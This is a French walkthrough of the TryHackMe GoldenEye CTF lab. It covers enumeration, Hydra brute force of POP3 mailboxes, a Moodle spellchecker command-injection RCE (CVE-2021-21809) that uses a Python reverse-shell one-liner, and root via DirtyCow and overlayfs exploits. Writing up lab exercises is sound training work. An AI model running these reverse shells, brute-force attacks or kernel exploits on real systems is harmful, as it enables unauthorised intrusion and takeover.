# GoldenEye

<figure><figcaption><p>Tumbnail GoldenEye</p></figcaption></figure>

> "_This room will be a guided challenge to hack the James Bond styled box and get root. Credit to creosote for creating this VM."_

## **\[Task 1] Intro & Enumeration**

Commençons les énumérations de façon classique avec Nmap et Gobuster.

### [Nmap](broken-reference)

```sh
nmap $IP -A -p- -oN nmap.txt -T4
```

```shell-session
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP PIPELINING UIDL STLS USER SASL(PLAIN) AUTH-RESP-CODE CAPA RESP-CODES
|_ssl-date: TLS randomness does not represent time
```

Ce qui nous donne déjà une première réponse :

<table><thead><tr><th width="626">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>Use nmap to scan the network for all ports. How many ports are open?</td><td>4</td></tr></tbody></table>

### [Gobuster](broken-reference)

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50
```

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.2.201
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 282]
/.html                (Status: 403) [Size: 283]
/index.html           (Status: 200) [Size: 252]
/.php                 (Status: 403) [Size: 282]
/.html                (Status: 403) [Size: 283]
/server-status        (Status: 403) [Size: 291]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================

```

### Exploitation

Rendons-nous sur la page html du site avec Firefox

<figure><figcaption><p>première page</p></figcaption></figure>

analysons le code source de la page

<figure><figcaption><p>code source première page</p></figcaption></figure>

comme recommandé dans le challenge, inspectons tous les scripts et en particulier **terminal.js**

### code source de terminal.js

```javascript
var data = [
  {
    GoldenEyeText: "<span><br/>Severnaya Auxiliary Control Station<br/>****TOP SECRET ACCESS****<br/>Accessing Server Identity<br/>Server Name:....................<br/>GOLDENEYE<br/><br/>User: UNKNOWN<br/><span>Naviagate to /sev-home/ to login</span>"
  }
];

//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;

 
  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
```

<table><thead><tr><th width="574">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>Who needs to make sure they update their default password?</td><td>boris</td></tr></tbody></table>

### Cyber Chef

Le code source nous révèle un hash

```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```

Confions ce hash à [cyber chef](https://gchq.github.io/CyberChef/) et au passage, remarquons qu'il nous propose le décodage « magique »

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>cyberchef</p></figcaption></figure>

Ce qui nous donne la réponse à la question suivante.

<table><thead><tr><th width="505">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>Whats their password?</td><td>InvincibleHack3r</td></tr></tbody></table>

**Nous connaissons maintenant deux utilisateurs, boris et natalya et nous avons un mot de passe pour boris.**

## \[Task 2] Its mail time...

### Firefox

Essayons d'abord de nous connecter via Firefox avec l'utilisateur  boris:InvincibleHack3r.

<figure><figcaption><p>sev-home login</p></figcaption></figure>

<figure><figcaption><p>GoldenEye page index</p></figcaption></figure>

L'analyse du code source de la page ne mène à rien d'exploitable.

Comme suggéré dans le challenge et dans la page index, tentons de nous connecter avec l'utilisateur boris:InvincibleHack3r au serveur pop3 sur le port 55007 trouvé avec nmap .

( [ pop3 en ligne de commande](https://www.vircom.com/blog/quick-guide-of-pop3-command-line-to-type-in-telnet/) )

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

### Hydra

Comme les crédentiels de l'utilisateur boris ne fonctionnent pas pour le serveur pop3, le challenge suggère d'utiliser [Hydra](broken-reference).

Lançons une brute-force hydra pop3 port 55007 avec la wordlist classique rockyou.txt

```sh
hydra -l boris  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s 55007 -t 64
```

Au bout de 10 minutes, nous n'avons trouvé aucun password et la commande semble partie pour des heures !  Dans les challenges THM, les attaques brut-force répondent en général en quelques minutes, certainement en moins de 10 minutes. (Tout dépend évidemment de la vitesse de calcul de votre machine.)

Changeons la wordlist et lançons Hydra avec fasttrack.txt en lieu et place de rockyou.txt.

```sh
hydra -l boris  -P /usr/share/wordlists/fasttrack.txt  pop3://$IP -s 55007 -t 64
```

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l boris  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 04:55:45
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.43.8:55007/
[55007][pop3] host: 10.10.43.8   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 04:56:13

```

idem pour natalya

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l natalya  -P /usr/share/wordlists/fasttrack.txt  pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 04:56:27
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.43.8:55007/
[55007][pop3] host: 10.10.43.8   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 04:56:57

```

### Utilisateurs pop3 trouvés jusqu'à présent

| Utilisateur | Password |
| ----------- | -------- |
| boris       | secret1! |
| natalya     | bird     |

### Réponses aux questions

<table><thead><tr><th width="538">Questions</th><th>Réponses</th></tr></thead><tbody><tr><td>If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?</td><td>secret1!</td></tr><tr><td>Inspect port 55007, what services is configured to use this port?</td><td>telnet</td></tr><tr><td>What can you find on this service?</td><td>emails</td></tr><tr><td>What user can break Boris' codes?</td><td>natalya</td></tr></tbody></table>

### Emails

#### Boris

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
	for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id C3F2B454B1
	for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id 4B9F4454B1
	for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.

.

```

#### Natalya

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.

```

## \[Task 3] GoldenEye Operators Training

### Modifier /etc/hosts

Comme indiqué dans le dernier email de natalya, modifions le fichier /etc/hosts pour y ajouter&#x20;

```
<IP de la machine>    severnaya-station.com
```

Rendons-nous ensuite sur la page severnaya-station.com/gnocertdir

### Exploitation de la page severnaya-station.com/gnocertdir

<figure><figcaption><p>login page</p></figcaption></figure>

Connectons-nous avec les crédentiels  **xenia:RCP90rulez!** trouvés dans le dernier email de natalya et explorons son profil.

<figure><figcaption><p>xenial page</p></figcaption></figure>

<figure><figcaption><p>xenial messages</p></figcaption></figure>

Dans les messages de xenia, nous trouvons **doak** un nouvel utilisateur pop3&#x20;

Comme pour boris et natalya, passons-le à Hydra

```
──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l doak  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 10:44:49
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.233.62:55007/
[55007][pop3] host: 10.10.233.62   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 10:45:18
```

**Nous avons le nouveau crédentiel pop3 doak:goat**

Lisons ses mails:

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.233.62...
Connected to 10.10.233.62.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 97DC24549D
	for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

**Ce qui nous donne un nouvel utilisateur du site dr\_doak:4England!**

Connectons-nous au site (d'abord logout por xenial, puis login) et explorons son profil.

<figure><figcaption><p>dr_doak private files</p></figcaption></figure>

Téléchargeons le fichier s3cret.txt et lisons-le:

```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

Le contenu de ce fichier suggère que les crédentiels de l'utilisateur '**admin**' du site se trouvent dans  la page /dir007key/for-007.jpg

<figure><figcaption><p>dir007key/for-007.jpg</p></figcaption></figure>

Téléchargeons l'image et analysons le contenu avec la commande strings for-007.jpg

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ strings for-007.jpg
JFIF
Exif
eFdpbnRlcjE5OTV4IQ==
GoldenEye
linux
For James
0231
0100
ASCII
For 007
....

```

visiblement **eFdpbnRlcjE5OTV4IQ==** est un hash base64  (présence des deux == à la fin du hash) qui décodé donne **xWinter1995x!**

### Exploitation du login Administrateur

Nous avons maintenant les crédentiels de **admin:xWinter1995x!**

Retournons sur le site et connectons-nous en tant que admin et constatons que cet utilisateur a visiblement plus de droits, notamment ceux de modifier la configuration du site.&#x20;

<figure><figcaption><p>page login admin</p></figcaption></figure>

### Réponses aux questions

<table><thead><tr><th width="579">Questions</th><th>Réponses</th></tr></thead><tbody><tr><td>Try using the credentials you found earlier. Which user can you login as?</td><td>xenia</td></tr><tr><td>Have a poke around the site. What other user can you find?</td><td>doak</td></tr><tr><td>What was this users password?</td><td>goat</td></tr><tr><td>What is the next user you can find from doak?</td><td>dr_doak</td></tr><tr><td>What is this users password?</td><td>4England!</td></tr></tbody></table>

### Prise pied dans la machine - reverse shell

Cherchon la version de Moodle

<figure><figcaption><p>Moddle version</p></figcaption></figure>

Lançons une recherche Google d'exploits pour Moodle du style « **search exploits moodle reverse shell**» et on trouve assez rapidement une vulnérabilité \[CVE-2021-21809] du côté du correcteur orthographique de Moodle.

[https://ine.com/blog/cve-2021-21809-moodle-spellchecker-path-authenticated-rce](https://ine.com/blog/cve-2021-21809-moodle-spellchecker-path-authenticated-rce)

<figure><figcaption><p><a href="https://ine.com/blog/cve-2021-21809-moodle-spellchecker-path-authenticated-rce">cve-2021-21809</a></p></figcaption></figure>

**Cette vulnérabilité \[CVE-2021-21809]** **de Moodle permet d'exécuter une commande à distance (reverse-shell) en modifiant le path système du correcteur orthographique.**&#x20;

Un passage par la base de données des exploits de [Rapid7](https://www.rapid7.com/db/vulnerabilities/moodle-cve-2021-21809/) confirme la vulnérabilité et donne la marche à suivre dans l'annexe suivante :

[https://talosintelligence.com/vulnerability\_reports/TALOS-2021-1277](https://talosintelligence.com/vulnerability\_reports/TALOS-2021-1277)

"_To exploit the shell injection vulnerability, the administrator **sets a path to the legacy server-side spellcheck binary (aspellpath) containing a backtick shell injection** and **sets PSpellShell as the spellchecking engine**. When a server-side spellcheck is requested, lib/editor/tinymce/plugins/spellchecker/classes/PSpellShell.php uses aspellpath to unsafely construct a shell\_exec command. The spellchecker plugin does not have to be enabled._"

Lançons une recherche de  'spell' dans la page Moodle admin de notre cible&#x20;

<figure><figcaption></figcaption></figure>

Comme indiqué dans la vulnérabilité, changeons le correcteur en PSpellShell

<figure><figcaption><p>set PSpellShell</p></figcaption></figure>

Cherchons un oneline reverse-shell par exemple dans [revshells.com](https://www.revshells.com/)

<figure><figcaption><p>oneline reverse-shell</p></figcaption></figure>

Essayons un de mes reverse-shells préféré, le Python3 shortest:

<pre class="language-python" data-overflow="wrap"><code class="lang-python"><strong>python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("&#x3C;IP tun0 de Kali>",12345));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
</strong></code></pre>

Copions le reverse-shell dans Moodle et sauvegardons le tout.

<figure><figcaption><p>moodle reverse-shell</p></figcaption></figure>

Mettons Kali à l'écoute du port 12345 avec **nc -nvlp 12345**

Dans Moodle créons une nouvelle entrée de blog et lançons le correcteur orthographique

<figure><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ nc -nvlp 12345
listening on [any] 12345 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.43.2] 54414
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 

```

### <mark style="color:orange;">**Nous voilà entrés dans la machine**</mark>

## \[Task 4] Privilege Escalation

[Transférons les fichiers nécessaires de la machine Kali vers la machine cible](broken-reference) et utilisons [ma méthode générique d'analyse des possibilités de 'privilege escalation'.](broken-reference)

### sudo -l

```
www-data@ubuntu:/dev/shm$ sudo -l
sudo -l
[sudo] password for www-data:
```

Inexploitable

### [suid3num.py](broken-reference)

<figure><figcaption><p>suid3num.py</p></figcaption></figure>

Rien d'exploitable à première vue

### [LES (Linux-Exploit-Suggester)](broken-reference)

Bien que le challenge nous indique d'utiliser la vulnérabilité OverlayFs, je préfère rester plus générique dans mon analyse et utiliser l'outil **les.sh.**

Voici le résultat de **les.sh** suggérant des vulnérabilités exploitables dans l'ordre de leur probabilité d'exploitation

<figure><figcaption><p>Linux Exploits Suggester</p></figcaption></figure>

### Kernel version

```
www-data@ubuntu:/dev/shm$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/dev/shm$ 

```

### Vunérabilités trouvées

Les deux premières vulnérabilités de la liste (et donc les plus probables) sont:

* DirtyCow
* OverlayFs

### Commençons par DirtyCow

les.sh nous suggère [https://www.exploit-db.com/exploits/40611](https://www.exploit-db.com/exploits/40616). La lecture du mode d'emploi de l'exploit n'est pas évidente...

Après une recherche sur la base de donnée [exploit.db](https://exploit-db.com)

<figure><figcaption><p>Recherche dirtycow</p></figcaption></figure>

je préfère utiliser [https://www.exploit-db.com/exploits/40616](https://www.exploit-db.com/exploits/40616) qui me paraît plus facile à utiliser

<figure><figcaption><p>dirtycow mode d'emploi</p></figcaption></figure>

le compilateur **gcc n'est pas installé**. À la place, nous pouvons utiliser **cc**, son équivalent UNIX.

```
www-data@ubuntu:/dev/shm$ gcc --version
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
www-data@ubuntu:/dev/shm$ 
www-data@ubuntu:/dev/shm$ cc --version
Ubuntu clang version 3.4-1ubuntu3 (tags/RELEASE_34/final) (based on LLVM 3.4)
Target: x86_64-pc-linux-gnu
Thread model: posix
www-data@ubuntu:/dev/shm$ 
```

Téléchargeons et transférons le fichier 40616.c que j'ai renommé en dirtycow.c pour plus de clarté.

Suivons pas à pas la mise en œuvre de l'exploit et ne nous préoccupons pas des 'warnings' générés.

```sh
www-data@ubuntu:/dev/shm$ wget 10.9.2.173:8000/dirtycow.c
wget 10.9.2.173:8000/dirtycow.c
--2024-10-08 01:06:39--  http://10.9.2.173:8000/dirtycow.c
Connecting to 10.9.2.173:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4966 (4.8K) [text/x-csrc]
Saving to: 'dirtycow.c'

100%[======================================>] 4,966       --.-K/s   in 0s      

2024-10-08 01:06:39 (674 MB/s) - 'dirtycow.c' saved [4966/4966]

www-data@ubuntu:/dev/shm$ cc dirtycow.c -o cowroot -pthread
dirtycow.c:91:1: warning: control reaches end of non-void function [-Wreturn-type]
}
^
dirtycow.c:100:17: warning: incompatible pointer to integer conversion passing 'void *' to parameter of type '__off_t' (aka 'long') [-Wint-conversion]
        lseek(f,map,SEEK_SET);
                ^~~
/usr/include/unistd.h:334:41: note: passing argument to parameter '__offset' here
extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                                        ^
dirtycow.c:104:1: warning: control reaches end of non-void function [-Wreturn-type]
}
^
dirtycow.c:129:1: warning: control reaches end of non-void function [-Wreturn-type]
}
^
dirtycow.c:137:5: warning: implicit declaration of function 'asprintf' is invalid in C99 [-Wimplicit-function-declaration]
    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    ^
dirtycow.c:141:5: warning: implicit declaration of function 'fstat' is invalid in C99 [-Wimplicit-function-declaration]
    fstat(f,&st);
    ^
dirtycow.c:143:36: warning: format specifies type 'int' but the argument has type '__off_t' (aka 'long') [-Wformat]
    printf("Size of binary: %d\n", st.st_size);
                            ~~     ^~~~~~~~~~
                            %ld
7 warnings generated.
www-data@ubuntu:/dev/shm$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/run/shm# 

```

### <mark style="color:orange;">**Et voilà, mission accomplie: nous sommes root.**</mark>

```
root@ubuntu:/run/shm# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@ubuntu:/run/shm# cd /root
cd /root
root@ubuntu:/root# ls -la
ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
root@ubuntu:/root# cat .flag.txt
cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

root@ubuntu:/root# 
```

Allons à la page /006-final/xvf7-flag/ et <mark style="color:red;">**boom...**</mark> :tada:

<figure><figcaption></figcaption></figure>

### Réponses aux questions

| Question                  | Réponse                          |
| ------------------------- | -------------------------------- |
| Whats the kernel version? | 3.13.0-32-generic                |
| What is the root flag?    | 568628e0d993b1973adc718237da6e93 |

## \[ Bonus ] utilisation de overlay.fs exploit&#x20;

Le challenge préconise l'utilisation de overlay.fs [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Dans ce cas-ci, il faudra utiliser le compilateur cc au lieu de gcc avec la subtilité supplémentaire qu'il faut remplacer **gcc** par **cc** dans le code source de l'exploit.

<figure><figcaption><p>overlay.fs code source</p></figcaption></figure>

Téléchargeons, transférons le fichier ofs.c vers la machine cible et exécutons l'exploit en suivant le mode d'emploi donné dans le code source

```
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)
```

Comme pour [DirtyCow](goldeneye.md#commencons-par-dirtycow), il ne faut pas se soucier des warnings.

Voici ce que cela donne:

<figure><figcaption><p>overlayFS exploit</p></figcaption></figure>

<mark style="color:orange;">**Bingo, ici aussi, nous voilà root**</mark>
